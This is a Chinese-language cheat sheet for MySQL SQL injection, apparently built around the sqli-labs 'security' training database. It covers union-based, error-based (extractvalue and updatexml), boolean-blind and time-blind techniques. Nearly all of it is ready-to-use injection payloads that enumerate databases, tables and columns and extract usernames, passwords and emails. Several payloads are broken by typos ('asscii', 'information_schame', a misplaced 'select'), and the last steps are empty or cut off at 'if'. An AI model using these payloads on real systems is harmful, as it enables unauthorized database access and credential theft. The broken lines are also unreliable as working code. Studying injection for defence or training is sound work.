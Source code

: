## SQL注入之MySQL

### 一、联合注入
联合查询就是SQL语法中的union select语句。该语句会同时执行两条select语句，生成两张虚拟表，然后把查询到的结果进行拼接。</br>
select ~~~~~~ union select~~~~~~</br>
由于虚拟表是二维结构，联合查询会“纵向”拼接，两张虚拟的表。</br></br>
 **-- （1）判断注入点**
我们在可能存在SQL注入变量的后边添加以下payload：
```python
and 1=1 / and 1=2     --回显页面不同(整形判断) 
单引号判断\‘            --显示数据库错误信息或者页面回显不同(整形,字符串类型判断) 
 \                    --(转义符) 
-1/+1                 --回显下一个或上一个页面(整型判断)
```
**-- （2）判断注入点为整型还是字符型**
输入and 1=1和and 1=2后发现页面没有变化，判断不是整型注入。</br>
输入’ and 1=1 %23和 ‘ and 1=2%23后发现页面变化，判断为字符注入。</br>
**-- （3）使用order by推断字段数，即表中列的数量**
 ```python
order by 4%23        查看页面变化，页面报错说明没有4列，没有保存说明有4列，继续下一个数字的尝试
```
**-- （4）使用union，确认显示位，即会显示的字段**
 ```python
id=-1' union select 1,2,3    查看页面显示1,2,3的位置，即显示位
```
**-- （5）获取数据库名**
 ```python
id=-1' union select 1,database(),3--+      我们得出了数据库名叫security
```
**-- （6）获取数据库表名**
 ```python
id=-1' union select 1,(select table_name from information_schema.tables where table_schema='security' limit 3,1),3
```
**-- （7）获取数据库表中所有字段**
 ```python
id=-1'union select 1,(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),3
```
**-- （8）获取字段中数据**
 ```python
id=-1' union select 1,select( username from users limit 1,1),(select password from users limit 1,1)
```
### 二、报错注入
<font color=#FF000 >1、使用extractvalue函数</font></br>

**-- （1）查询数据库名字（用户user()；版本version()）**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select database()),0x7e))%23
```
**-- （2）查询数据库有多少个表**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e))%23
```
**-- （3）查询数据库的表名，limit后面第一个数字表示第几个表**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))%23
```
**-- （4）查询列名，limit后数字表示第几列**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e))%23
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='emails'),0x7e))%23
```
**-- （5）查询表里面某列的内容**
```Python
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(id) from security.emails),0x7e))%23
```
<font color=#FF000 >2、使用updatexml函数</font></br>

**-- （1）查询数据库名字，数据库名字为security（用户user()；版本version()）**
```Python
?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23		
```
**-- （2）查询数据库有多少个表**
```Python
?id=1' and updatexml(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database()),0x7e),1)%23	
```
**-- （3）查询数据库的表名，limit后第一个数字表示第几个表**
```Python
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)%23	
```
**-- （4）查询列名，limit后数字表示第几列**
```Python
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1)%23	
```
**-- （5）查询表里面某列的内容**
```Python
?id=1' and updatexml(1,concat(0x7e,(select group_concat(email_id) from security.emails),0x7e),1)%23	
```



### 三、布尔盲注
**-- 1#获得数据库名长度为8**
```Python
?id=1' and (length(database())=8)%23		#有回显
```
**-- 2#获得数据库名**
```Python
?id=1' and ascii(substr(database(),1,1))<100 %23		#无回显
?id=1' and ascii(substr(database(),1,1))=115 %23		#有回显
```
**-- 3#获得数据库表名个数**
```Python
?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4%23	#有回显
```
**-- 4#获得数据库表名长度**
```Python
?id=1' and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6%23	
```
**-- 5#获得数据库表名**
```Python
?id=1' and ascii((substr ((select table_name from information_schema.tables where table_schema=database() limit 0,1),0,1)))=106%23
```
**-- 6#获取列名**</br>

**-- 7#获得数据**

### 四、时间盲注
**1#获得数据库名长度**
```Python
?id=1' and if((length(database())>5),sleep(5),1)%23	    #有时间延迟，说明判断正确
?id=1' and if((length(database())>9),sleep(5),1)%23	    #无时间延迟，说明判断错误
?id=1' and if((length(database())>5),1,sleep(5))%23	    #无时间延迟，说明判断正确
```
**2#获得数据库名**
```Python
?id=1' and if((ascii(substr(database(),1,1))>100,sleep(5),1))%23		#有无回显
```
**3#获得表名（同理先获取长度）**
```Python
?id=1' and if((asscii(substr((select table_name from information_schame.tables where table_schame=database() limit 0,1),1,1)))>100,sleep(5),1)		#有无回显
```
**4#获取数据库列名（先拿列长度？）**
```Python
?id=1' and if
```
**5#获取数据**
```Python
?id=1' and if
```
